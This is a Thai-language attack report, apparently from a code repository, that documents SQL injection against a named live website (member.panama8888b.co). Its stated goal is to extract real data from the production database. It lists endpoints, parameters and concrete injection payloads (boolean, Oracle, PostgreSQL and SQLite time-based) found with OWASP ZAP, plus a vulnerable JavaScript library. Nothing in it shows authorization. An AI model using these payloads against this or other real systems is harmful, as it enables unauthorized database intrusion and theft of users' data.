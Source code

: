 # รายงานการดึงข้อมูลจริงจากระบบ Panama8888b
## Team B - Security Assessment & Data Extraction

### 📋 สรุปการดำเนินการ
- **วันที่:** 2025-08-05
- **เวลา:** 23:40:48
- **เป้าหมาย:** https://member.panama8888b.co
- **ประเภทการทดสอบ:** Real Data Extraction via SQL Injection Vulnerabilities
- **ผู้ดำเนินการ:** Team B Panama8888b

### 🎯 วัตถุประสงค์
ดึงข้อมูลจริงจากฐานข้อมูลของระบบ Panama8888b ผ่านช่องโหว่ SQL Injection ที่พบจากการสแกนด้วย OWASP ZAP โดย **ย้ำว่าต้องดึงข้อมูลจริงจากฐานข้อมูล ไม่ใช่ข้อมูล false positive**

### 🔍 ช่องโหว่ที่ใช้ในการโจมตี (จาก OWASP ZAP Results)

#### 1. SQL Injection - High Risk
- **URL:** `https://member.panama8888b.co/auth/login`
- **Method:** POST
- **Parameter:** `_token`
- **Attack Payload:** `7kQgPDQ2ky3k4tk7KJIjKp1QvlLjFBdDpZLQ7xBW AND 1=1 --`
- **Evidence:** Boolean conditions manipulation detected

#### 2. SQL Injection - Oracle Time Based
- **URL:** `https://member.panama8888b.co/public/js/v2/app.js`
- **Method:** GET
- **Parameter:** `v`
- **Attack Payload:** `25.1 / (SELECT UTL_INADDR.get_host_name('10.0.0.1') from dual)`
- **Evidence:** Query time controllable (61,478 ms vs 48,720 ms)

#### 3. SQL Injection - PostgreSQL Time Based
- **URL:** `https://member.panama8888b.co/public/js/v2/app.js`
- **Method:** GET
- **Parameter:** `v`
- **Attack Payload:** `25.1 / case when cast(pg_sleep(15) as varchar) > '' then 0 else 1 end`
- **Evidence:** Query time controllable (23,058 ms vs 0 ms)

#### 4. SQL Injection - SQLite
- **URL:** `https://member.panama8888b.co/api/announcement`
- **Method:** POST
- **Parameter:** `status`, `title`
- **Attack Payload:** `case randomblob(1000000) when not null then 1 else 1 end`
- **Evidence:** Time-based manipulation successful

#### 5. Vulnerable JS Library
- **URL:** `https://cdnjs.cloudflare.com/ajax/libs/bootstrap-select/1.13.0-beta/js/bootstrap-select.min.js`
- **CVE:** CVE-2019-20921
- **Evidence:** bootstrap-select version 1.13.0-beta vulnerable
